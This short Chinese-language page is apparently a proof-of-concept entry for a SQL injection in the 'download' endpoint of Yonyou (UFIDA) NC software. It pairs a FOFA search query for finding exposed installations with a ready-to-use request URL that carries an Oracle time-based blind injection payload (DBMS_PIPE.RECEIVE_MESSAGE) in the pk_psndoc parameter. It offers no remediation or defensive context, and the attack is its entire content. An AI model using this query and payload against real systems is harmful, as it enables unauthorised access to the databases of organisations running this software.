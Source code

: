 # 用友NC接口download存在SQL注入漏洞


## fofa

```yaml
app="用友-UFIDA-NC"
```

## poc

```java
http://ip/portal/pt/psnImage/download?pageId=login&pk_psndoc=1%27)%20AND%206322=DBMS_PIPE.RECEIVE_MESSAGE(CHR(65)||CHR(79)||CHR(66)||CHR(101),5)%20AND%20(%27rASZ%27=%27rASZ
```

